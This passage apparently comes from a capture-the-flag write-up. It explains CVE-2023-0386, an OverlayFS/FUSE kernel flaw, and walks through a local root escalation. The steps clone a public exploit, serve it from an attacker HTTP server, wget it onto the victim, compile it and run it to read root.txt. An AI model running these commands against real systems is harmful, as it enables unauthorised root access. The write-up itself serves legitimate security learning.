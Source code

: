 ### Explanation

*In short, it says that in kernel versions prior to `6.2`, when copying a file from an `overlay` mount to the `upper` directory, it does not check if the owner of the file belongs to the current machine. Therefore, if we pass a file with `uid=0` (User ID), even if the root of the machine is not the owner, it will be copied to the `upper` with the actual machine's root as the owner. To take advantage of this we will create a malicious script with `suid` bit (which allows to execute code as the owner of the file even if you are not)*

*To create a file with `uid=0` without being root, we need to use a virtual file system like **FUSE**. With this, we can simulate a file with `uid=0` and `gid=0` (Group ID).*

*To understand this better, it would be helpful to look up information on how **OverlayFS** and **FUSE** work.*

---

```
uname -r

5.15.70-051570-generic
```

The kernel version is lower than `6.2`, so we can try to exploit the vulnerability. Let’s clone an exploit from **GitHub**.

```
git clone https://github.com/sxlmnwb/CVE-2023-0386
```

To transfer it to the victim machine, we will first zip it.

```
zip -r cve.zip CVE-2023-0386
```

Start an HTTP server in python on port 80.

```
python3 -m http.server 80
```

Then, download it to the victim machine, unzip it, and compile it.

```
wget 10.10.14.48/cve.zip
unzip cve.zip
cd CVE-2023-0386
make all
```

As it is explained in the `README.md`, we execute `fuse` in the background (with `&` at the end of the command) and then `exp`.

```
./fuse ./ovlcap/lower ./gc &
./exp
```

Now we are **root**, and we can read the `root.txt`.
